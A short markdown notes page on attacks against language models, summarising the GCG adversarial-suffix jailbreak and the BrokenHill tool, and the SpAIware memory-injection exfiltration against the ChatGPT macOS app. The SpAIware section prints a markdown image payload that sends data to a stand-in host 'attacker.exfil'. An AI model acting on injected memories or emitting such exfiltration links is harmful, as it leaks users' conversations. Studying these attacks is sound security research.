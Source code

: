 # AI Exploits


## Greedy Coordinate Gradient (GCG) Attack

[bishopfox.com - Broken Hill Attack Tool and GCG Attack](https://bishopfox.com/blog/brokenhill-attack-tool-largelanguagemodels-llm):
*A GCG attack begins with two inputs from the operator: a request that will be sent to an LLM, and the beginning of an ideal response that the LLM could send back, if the LLM were not conditioned or instructed to avoid providing that response*. The operator provides *Adversarial content* that *causes the LLM to instead predict that the most likely continuation is*. To highlight the cause of LLM response, it is the mechanic statistical matching of what it statistically matches as a complete response. *So the LLM will then continue to add more text until the response appears complete*, *...even if the LLM has been conditioned to not provide the type of information in the request, it is very likely to ignore that conditioning, because (to anthropomorphize a bit) the LLM can see that it has already agreed to provide the information, and therefore, statistically, the most likely text to follow is exactly the information it was conditioned not to provide.*

Tool: [GitHub BishopFox/BrokenHill](https://github.com/BishopFox/BrokenHill)
## SpAIware

The introduction of API call named `url_safe` in ChatGPT informs the client if it is safe to display a URL or an image to the user or not, but this a client side check; not server-side.

1. First a memory is injected with prompt to go to `http://attacker.exfil/p.txt`, which is destination of the exfiltration of future prompts.  The payload is markdown image syntax reference`![](http://attacker.exfil/0.png?chatgptmacos=http://attacker.exfil/p.txt)`

[YouTube EmbraceTheRed Demonstration](https://www.youtube.com/watch?v=zb0q5AW5ns8&themeRefresh=1)
[embracethered.com - hatgpt-macos-app-persistent-data-exfiltration/](https://embracethered.com/blog/posts/2024/chatgpt-macos-app-persistent-data-exfiltration/)
[thehackernews - chatgpt-macos-flaw-couldve-enabled-long](https://thehackernews.com/2024/09/chatgpt-macos-flaw-couldve-enabled-long.html)




## References

[GitHub BishopFox/BrokenHill](https://github.com/BishopFox/BrokenHill)
[bishopfox.com - Broken Hill Attack Tool and GCG Attack](https://bishopfox.com/blog/brokenhill-attack-tool-largelanguagemodels-llm):
[YouTube EmbraceTheRed Demonstration](https://www.youtube.com/watch?v=zb0q5AW5ns8&themeRefresh=1)
[embracethered.com - hatgpt-macos-app-persistent-data-exfiltration/](https://embracethered.com/blog/posts/2024/chatgpt-macos-app-persistent-data-exfiltration/)
[thehackernews - chatgpt-macos-flaw-couldve-enabled-long](https://thehackernews.com/2024/09/chatgpt-macos-flaw-couldve-enabled-long.html)